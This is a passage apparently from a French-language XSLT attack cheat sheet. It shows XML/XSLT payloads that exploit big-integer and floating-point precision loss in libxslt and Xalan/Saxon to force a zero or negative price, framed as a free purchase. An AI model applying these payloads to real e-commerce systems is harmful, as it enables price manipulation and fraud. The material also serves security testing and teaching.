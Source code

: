**Description :** Exploiter les erreurs de calcul avec de grands nombres ou des décimales pour contourner la logique métier.

**9.1 - Perte de précision avec grands entiers :**

**XML :**

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<?xml-stylesheet type="text/xsl" href="bigint.xsl"?>
<root>
  <price>10000000000000000000000</price>
  <discount>9999999999999999999999</discount>
</root>
```

**XSLT :**

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <result>
      Prix original: <xsl:value-of select="format-number(root/price, '#,###')"/>
      Réduction: <xsl:value-of select="format-number(root/discount, '#,###')"/>
      Prix final: <xsl:value-of select="format-number(root/price - root/discount, '#,###')"/>
    </result>
  </xsl:template>
</xsl:stylesheet>
```

**Impact :** Libxslt calcule incorrectement → Prix final = 0 ou négatif → Achat gratuit !

**9.2 - Perte de précision avec nombres réels :**

**XML :**

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<?xml-stylesheet type="text/xsl" href="precision.xsl"?>
<transaction>
  <amount1>1000.41</amount1>
  <amount2>1000</amount2>
</transaction>
```

**XSLT :**

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <total>
      <xsl:value-of select="transaction/amount1 + transaction/amount2"/>
    </total>
  </xsl:template>
</xsl:stylesheet>
```

**Résultat attendu :** 2000.41\
**Résultat avec Xalan/Saxon :** 2000.4099999999999 ou 2000.40
